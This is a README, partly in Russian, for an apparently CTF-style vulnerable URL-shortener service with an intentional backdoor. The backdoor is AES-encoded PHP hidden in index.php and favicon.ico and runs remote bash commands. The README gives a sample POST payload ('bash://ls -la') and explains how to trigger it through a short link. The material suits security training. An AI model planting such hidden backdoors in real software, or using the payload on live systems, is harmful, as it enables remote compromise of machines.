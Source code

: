 # service_lnks

!!! FOR VULNERABLE IMAGE NEED ONLY `service` FOLDER (No more)

Cервис коротких ссылок.

* Из уязвимостей только бекдор (Позволяющий выполнять удаленные bash команды)
* Код на php (index.php и favicon.ico)
* Код php закодирован aes для дополнительной сложности (Ключ конечно же там же).
* Со страницы проэксплуатировать бекдор напрямую нельзя (если только js код тут же не модифицировать)

![Service Preview](preview.png)

## Service 

See in folder `service`

## Checker 

See in folder `checker`

## Test checker-service

For check service you can use "cd checker && ./test_checker.sh 127.0.0.1"

## Build 

Directory for developers

* prepare index.php for service

## Vuln1: Backdoor

You can create execute commands on hosted machine

1. send post to http://%HOST%:3154/ with data:
```
url=bash%3A%2F%2Fls%20-la%20lnks&lnk=testls
```

2. And after this open:

http://%HOST%:3154/testls




